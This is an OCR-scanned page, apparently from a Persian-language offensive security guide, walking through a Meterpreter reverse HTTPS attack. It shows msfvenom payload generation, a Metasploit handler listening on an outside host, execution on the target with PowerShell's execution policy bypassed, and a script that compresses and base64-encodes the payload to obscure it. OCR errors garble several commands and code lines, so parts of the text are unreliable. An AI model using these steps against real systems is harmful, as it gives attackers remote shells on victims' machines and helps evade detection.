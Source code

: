 ```text
Need Metasploit v4.5+ (msfvenom supports Powershell) 
Use Powershell (x86) with 32 bit Meterpreter payloads 
encodeMeterpreter.psl script can be found on next page 
```

### در سیستم حمله کننده

```text
1. ./msfvenom -p Wlndows/meterpreter/reverse https -f psh -a x86 LHOST=1.1.1.1 LPORT=443 audit.psl 
2. Move audit.psl into same folder as encodeMeterpreter.psl 
3. Launch Powershell (x86) 
4. powershell.exe -executionpolicy bypass encodeMeterpreter.psl 
5. Copy the encoded Meterpreter string
```

### شروع listener در سیستم حمله کننده

```text
1. ./msfconsole 
2. use exploit/multi/handler 
3. set payload windows/meterpreter/reverse https 
4. set LHOST 1. 1. 1. 1 
5. set LPORT 443 
6. exploit -j 
```

### در سیستم هدف \(اجرای powershell\(x86\)\)

```text
1. powershell. exe -noexi t -encodedCommand paste encoded Meterpreter 
string here 
PROFIT 
```

### Encodemeterpreter.ps1 \[7\]

```text
# Get Contents of Script
$contents = Get-Content audit.psl
# Compress Script
$ms = New-Object IO.MemoryStream
$action = [IO.Compression.CompressionMode]: :Compress
$cs =New-Object IO.Compression.DeflateStream ($ms,$action)
$sw =New-Object IO.StreamWriter ($cs, [Text.Encoding] ::ASCII)
$contents I ForEach-Object {$sw.WriteLine($ I)
$sw.Close()
# Base64 Encode Stream
$code= [Convert]: :ToBase64String($ms.ToArray())
$command= "Invoke-Expression '$(New-Object IO.StreamReader('$(New-Object
IO. Compression. DeflateStream ('$(New-Object IO. t4emoryStream
(, '$ ( [Convert] : : FromBase64String ('"$code'") ) I I ,
[IO.Compression.Compressiont~ode]: :Decompress) I,
[Text.Encoding]: :ASCII)) .ReadToEnd() ;"
# Invoke-Expression $command
$bytes= [System.Text.Encoding] ::Unicode.GetBytes($command)
$encodedCommand = [Convert]: :ToBase64String($bytes)
# Write to Standard Out
Write-Host $encodedCommand
```
